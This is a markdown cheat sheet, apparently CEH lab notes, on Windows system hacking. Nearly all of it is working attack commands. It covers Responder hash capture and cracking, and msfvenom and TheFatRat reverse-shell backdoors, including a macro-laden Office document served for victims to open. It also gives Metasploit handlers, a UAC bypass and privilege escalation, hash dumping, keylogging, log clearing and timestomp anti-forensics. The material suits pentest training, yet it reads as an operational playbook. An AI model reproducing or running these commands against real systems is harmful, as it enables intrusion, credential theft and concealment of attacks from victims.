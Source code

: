 # System Hacking

## Gain access to the system

### Crack the system’s password using Responder

Responder is an LLMNR, NBT-NS, and MDNS poisoner. It responds to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix. By default, the tool only responds to a File Server Service request, which is for SMB.

```
cd Responder
chmod +x Responder.py
./Responder.py -I eth0
```
Goto windows machine
open run
type "\\CEH-Tools"
Go back to the linux machine

The logs are by default stored at ~/logs
```
sudo apt install john-the-ripper
sudo john ~/logs/SMB-NTLM
```
The password is now cracked!

### Audit system passwords using L0phtCrack
As an ethical hacker or penetration tester, you can use the L0phtCrack tool for auditing the system passwords of machines in the target network and later enhance network security by implementing a strong password policy for any systems with weak passwords.

* Windows
* Password Auditing Wizard button
* Follow set up steps
* Enter Admin credentials of the target machine

### Find vulnerabilities on exploit sites

https://www.exploit-db.com/

### Exploit client-side vulnerabilities and establish a VNC session

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=444 -o OutputPath.exe 
service apache2 start
cp OutputPath.exe /var/www/html/share
```
Share the file
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 
set LPORT 444
exploit
```
After gaining access
PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities. It utilizes various service abuse checks, .dll hijacking opportunities, registry checks, etc. to enumerate common elevation methods for a target system.
```
sysinfo
upload /root/PowerSploit/Privesc/PowerUp.ps1 
shell
powershell -ExecutionPolicy Bypass -Command “. .\PowerUp.ps1;Invoke-AllChecks” 
exit
run vnc
```

### Gain access to a remote system using Armitage

```
service postgresql start
```
Open armitage Pentesting Tools -> Exploitation -> Metasploit Framework -> armitage
Hosts -> Nmap Scan -> Intense Scan
Payload -> windows -> meterpreter -> meterreter_reverse_tcp -> lport 444 -> output exe -> Launch
Save at any location of choice
Terminal
```
cp source destination
service apache2 start
```
Armitage
double click meterpreter_reverse_tcp -> lport 444 -> Output multi/handler

Let victim click the app

right click on pc -> meterpreter 1 -> interact -> meterpreter shell
```
sysinfo
```
right click on target pc -> Meterpreter 1 --> Explore --> Browse Files.

### Hack a Windows machines with a malicious Office document using TheFatRat

```
fatrat
  [06] Create Fud Backdoor 1000% with PwnWinds [Excelent]
  [3] Create exe file with apache + Powershell (FUD 100%)
  [ 3 ] windows/meterpreter/reverse_tcp
```
generated payload appear and are saved at the location /root/TheFatRat_Generated
```
  [9] Back to Menu 
  [07] Create Backdoor For Office with Microsploit
  |2| The Microsoft Office Macro on Windows
  y
  [ 3 ] windows/meterpreter/reverse_tcp
```
```
cp /root/Fatrat_Generated/BadDoc.docm /var/www/html/share 
service apache2 start
msfconsole
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set LHOST 
set LPORT
exploit
```
```
sysinfo
```


## Privilege Escalation

### 1 Using BeRoot

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.13 -f exe > Desktop/Exploit.exe 
```
```
msfconsole
use /exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhosts host
set lport port
exploit
```
Share this file over lan
After gaining access
```
getuid
```
ensure beroot is on desktop or location locally
```
upload pathofbeRoot.exe 
shell
beRoot.exe
exit
```
#### To check if privilege escalation is successful
```
run post/windows/gather/smart_hashdump
```
```
getsystem -t 1
```

```
background
```
### 2 Using bypassuac_fodhelper 

```
use exploit/windows/local/bypassuac_fodhelper
options
set session 1
set payload windows/meterpreter/reverse_tcp
set LHOST 
set target 0
exploit
```
If a meterpreter shell is opened, then the exploit is successful
```
getuid
getsystem -t 1 
getsystem
run post/windows/gather/smart_hashdump 
```
Clearing Logs (Requires admin access)
```
clearev 
```


While performing post-exploitation activities, an attacker tries to access files to read their contents. Upon doing so, the MACE (modified, accessed, created, entry) attributes immediately change, which indicates to the file user or owner that someone has read or modified the information.
To leave no trace of these MACE attributes, use the timestomp command to change the attributes as you wish after accessing a file.
```
timestomp secret.txt -v 
timestomp secret.txt -m “02/11/2018 08:10:03”
timestomp secret.txt -v
```
download command downloads a file from the remote machine to the host machine.
```
download file
```
search command that helps you to locate files on the target machine. This type of command is capable of searching through the whole system or can be limited to specific folders.
```
search -f fileextension
```
To capture all the keystrokes of target
```
keyscan_start 
keyscan_dump
```
To check idle time of the user
```
idletime
```
